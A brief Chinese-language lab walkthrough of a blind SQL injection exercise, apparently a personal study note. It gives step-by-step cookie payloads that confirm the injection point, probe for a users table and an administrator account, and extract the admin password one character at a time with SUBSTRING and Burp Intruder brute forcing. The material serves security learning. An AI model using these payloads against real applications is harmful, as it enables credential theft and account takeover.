 # SQL 注入

## 例子一

参考 Lab: Blind SQL injection with conditional responses

1. 分析，可能用了某个SQL，例如 select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl';
2. 修改TrackingId select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl'--'; 返回结果一样，存在注入漏洞，如果结果是其他，那么可能不存在注入漏洞
3. select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl' and 1=1--'; 结果一样，存在注入漏洞，1=1改成1=2，结果不一样，结果为False
4. select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl' and (select 'x' from users limit 1) = 'x'--'; 猜是否有users表
5. select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl' and (select username from users where username = 'administrator 'limit 1) = 'administrator'--'; 猜是否有administrator用户，以及username列
6. 使用intruder 确定密码长度select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl' and (select username from users where username = 'administrator'  and length(password) > 1 limit 1) = 'administrator'--'; 试 1 2 3 4 5 ... 直到某个标识没出现，例如20的时候没出现，那么20就是密码长度
7. 确定密码长度20，Cookie: TrackingId=412sXaPzxUS4w84c' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a; session=WKKbcio4oJYlf72nueUvdRzxWcW58jY3 使用substring确认每一位密码的字符，a-zA-Z0-9，使用cluster bomb来实现' AND (SELECT SUBSTRING(password,$1$,1) FROM users WHERE username='administrator')='$a$ 第一个用Numbers 第二个用Brute Forcer
8. 结果过滤 welcome back，记录每位密码的字符，拼接在一起
